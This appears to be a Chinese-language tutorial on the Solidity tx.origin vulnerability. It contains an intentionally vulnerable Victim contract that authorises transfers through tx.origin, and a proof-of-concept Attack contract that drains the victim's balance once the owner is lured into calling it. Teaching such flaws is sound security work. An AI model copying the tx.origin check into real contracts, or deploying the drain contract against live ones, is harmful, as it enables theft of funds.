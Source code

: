 ## 什么是Tx.origin漏洞

Solidity中的tx.origin漏洞原理是，当攻击者通过一个代理合约调用另一个合约时（例如，使用**`address.call()`**函数），被调用的合约中使用tx.origin来验证用户身份时，攻击者可以欺骗被调用合约，使其相信攻击者是真正的用户，从而执行攻击者的指令。

具体而言，当攻击者通过代理合约来调用另一个合约时，**`msg.sender`**会被设置为代理合约的地址，但是**`tx.origin`**仍然是原始用户的地址，因此被调用的合约如果只使用**`tx.origin`**来验证用户身份，而不是验证**`msg.sender`**的来源，就会被攻击者欺骗。

![Untitled](img/txorigin.png)

## 漏洞代码示例

[tx_origin.sol](./tx_origin.sol)

### 漏洞合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Victim {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint256 _amount) public {
        require(tx.origin == owner, "Not owner");
        _to.transfer(_amount);
    }
}
```

### POC合约

```solidity
contract Attack {
    address payable public hacker;
    Victim victim;

    constructor(Victim _victim) {
        victim = Victim(_victim);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导Victim合约的owner调用，于是Victim合约内的余额就全部转移到黑客地址中
        victim.transfer(hacker, address(victim).balance);
    }
}
```
